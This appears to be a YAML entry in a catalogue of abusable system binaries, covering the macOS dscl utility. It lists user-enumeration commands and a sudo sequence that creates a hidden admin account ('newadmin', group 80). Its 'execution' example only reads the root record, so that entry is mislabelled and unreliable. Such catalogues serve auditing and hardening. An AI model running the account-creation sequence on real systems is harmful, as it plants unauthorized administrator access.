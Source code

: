 ```yaml
---
title: dscl
tags: [file-read, execution, sudo]
description: Directory Service command line utility for managing user accounts and system configuration.
file-read: |
  # Read user information
  dscl . -read /Users/username
  
  # List all users
  dscl . -list /Users
  
  # Read system configuration
  dscl . -read /Config
execution: |
  # Execute commands via dscl (if misconfigured)
  dscl localhost -read /Local/Default/Users/root
sudo: |
  # Potential privilege escalation if user has dscl sudo rights
  sudo dscl . -create /Users/newadmin
  sudo dscl . -create /Users/newadmin UserShell /bin/bash
  sudo dscl . -create /Users/newadmin RealName "Admin User"
  sudo dscl . -create /Users/newadmin PrimaryGroupID 80
  sudo dscl . -create /Users/newadmin NFSHomeDirectory /Users/newadmin
layout: binary
---
```

